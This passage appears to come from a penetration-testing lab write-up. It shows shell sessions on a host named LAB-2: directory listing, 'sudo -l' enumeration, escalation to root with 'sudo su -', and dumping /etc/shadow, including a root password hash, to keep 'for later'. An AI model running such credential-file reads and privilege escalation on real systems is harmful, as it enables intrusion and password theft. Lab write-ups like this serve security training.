 ```c
```

| Username |
| -------- |
| steven   |
| emma     |

```c
wao@LAB-2:~$ ls -la
total 52
drwxr-xr-x 9 wao  wao  4096 Oct 21 17:09 .
drwxr-xr-x 5 root root 4096 Sep 14 03:45 ..
lrwxrwxrwx 1 root root    9 Sep 14 03:48 .bash_history -> /dev/null
-rw-r--r-- 1 wao  wao   220 Sep 13 11:08 .bash_logout
-rw-r--r-- 1 wao  wao  3771 Sep 13 11:08 .bashrc
drwx------ 2 wao  wao  4096 Sep 14 03:55 .cache
drwx------ 3 wao  wao  4096 Sep 14 07:21 .config
drwxrwxr-x 2 wao  wao  4096 Sep 14 06:41 Desktop
drwxrwxr-x 2 wao  wao  4096 Sep 14 06:42 Documents
drwxrwxr-x 9 wao  wao  4096 Sep 14 03:55 Downloads
drwx------ 3 wao  wao  4096 Sep 14 03:55 .gnupg
drwxrwxr-x 3 wao  wao  4096 Sep 14 07:32 .local
-rw-r--r-- 1 wao  wao   807 Sep 13 11:08 .profile
-rw-r--r-- 1 root root   66 Oct 21 17:09 .selected_editor
-rw-r--r-- 1 wao  wao     0 Sep 14 03:58 .sudo_as_admin_successful
```

```c
wao@LAB-2:~$ sudo -l
[sudo] password for wao: 
Matching Defaults entries for wao on LAB-2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wao may run the following commands on LAB-2:
    (ALL : ALL) ALL
```

### Privilege Escalation to root

```c
wao@LAB-2:~$ sudo su -
root@LAB-2:~#
```

### Pivoting (root)

After we switched our `session` to `root` by using `sudo su -` we grabbed the `/etc/shadow` file and stored it for later.

```c
root@LAB-2:/# cat /etc/shadow
root:$6$n5REEVlM$nYgdHK6CtQp3vbyZw2.lMaeUANVM75JmlRncD6qnObUetFP8SG2cc8XW/1enA1oUxXS39H17Cz8./En8sNQNe.:19979:0:99999:7:::
daemon:*:19979:0:99999:7:::
bin:*:19979:0:99999:7:::
sys:*:19979:0:99999:7:::
sync:*:19979:0:99999:7:::
games:*:19979:0:99999:7:::
man:*:19979:0:99999:7:::
lp:*:19979:0:99999:7:::
mail:*:19979:0:99999:7:::
news:*:19979:0:99999:7:::
uucp:*:19979:0:99999:7:::
proxy:*:19979:0:99999:7:::
```